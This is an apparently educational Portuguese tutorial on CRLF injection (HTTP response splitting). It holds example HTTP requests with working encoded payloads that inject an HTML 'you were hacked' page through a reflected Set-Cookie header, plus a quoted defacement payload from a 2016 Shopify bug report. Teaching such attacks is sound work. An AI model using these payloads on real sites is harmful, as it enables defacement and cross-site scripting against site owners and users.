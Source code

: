 # Carriage Return Line Feed

### O que é:

A partir desta vulnerabilidade será muito importante o leitor entender bem o funcionamento da web, então caso ainda esteja com dúvidas, releia os artigos sobre o [Protocolo HTTP](Protocolo%20HTTP-HTTPS.md), e o [Cliente-Servidor na web](Cliente-Servidor%20na%20WEB.md), feito isto, vamos à  vulnerabilidade.

O CRLF são caracteres usados para pular linhas, eles correspondem respectivamente, ao fim de uma linha e o início de outra para muitos protocolos, incluindo o HTTP, nele estes caracteres são representados por %0D %0A eles são, respectivamente, \r \n.

Achar esta vulnerabilidade é um pouco difícil pois o atacante deve estar atento as requests e responses mas caso consiga encontrá-la ele pode desde modificar uma response até criar um Firewall Evasion, que é quando o atacante consegue burlar verificações de segurança.

### Funcionamento Técnico:

Esta vulnerabilidade ocorre quando o atacante injeta um código no cabeçalho da request e este valor é "refletido" no cabeçalho da response, assim, quando é feita a injeção de caracteres CRLF ele pode criar sua própria response, conseguindo assim até criar uma página html inteira.

O local em que mais se encontra este problema é no cabeçalho Set-Cookie da response, mas ele pode ser encontrado em outros locais.

Imagine que ao inserir seus dados em um input você envie uma request parecida com esta para o servidor:


```http
GET /destino.php?nome=teste HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/home.html
Upgrade-Insecure-Requests: 1
```
e o servidor devolva esta response:

```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 13:54:45 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste; expires=Fri, 15-May-2020 13:54:47 GMT; Max-Age=2
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
Percebido que nome == Cookie, você pode injetar crlf para gerar uma uma quebra de linha, inserindo assim, o que você quiser abaixo de Cookie.

Exemplo:

```http
GET /destino.php?nome=teste%0d%0a%0d%0a%3Chtml%3E%3Cbody%3EVoce%20foi%20hackeado%3C%2Fbody%3E%3C%2Fhtml%3E HTTP/1.1
Host: 192.168.15.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.15.9/home.html
Upgrade-Insecure-Requests: 1
```
response:
```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 14:00:07 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste

<html><body>Voce foi hackeado></body</html>; expires=Fri, 15-May-2020 14:00:09 GMT; Max-Age=2
Content-Length: 65
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
### Exemplo:

Este report foi feito em 2016 para a empresa shopify, nele o pesquisador percebeu que a ultima url que ele tinha acessado era refletida no cookie, então caso injetasse um código crlf seria possível modificar a response.

A url vulnerável era esta: https://v.shopify.com/last_shop?shop=krankopwnz.myshopify.com 

O pesquisador injetou ```%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20te\
xt/html%0d%0aContent-Length:%2019%0d%0a%0d%0a<html>deface</html>``` após o fim da url, gerando assim uma página com o deface.

PoC:![](https://i.imgur.com/0lEiNeb.png)

### Como explorar:

Para explorar esta vulnerabilidade o pesquisador deve estar atento as requests e as responses da aplicação, para perceber quando alguns parâmetros estão sendo refletidos, para então, tentar montar um payload.

Acima, comentei que este erro é encontrado bastante no set-cookie, mas ele também pode ser encontrado no header Location e no header da request, de modo a editá-la antes de enviar ao servidor.

É interessante notar que esta vulnerabilidade pode gerar problemas como HTML Injection, Cross-Site Scripting e erros de logs no servidor, logo para extrair o máximo deste problema, esteja atento a tudo que ele pode afetar.
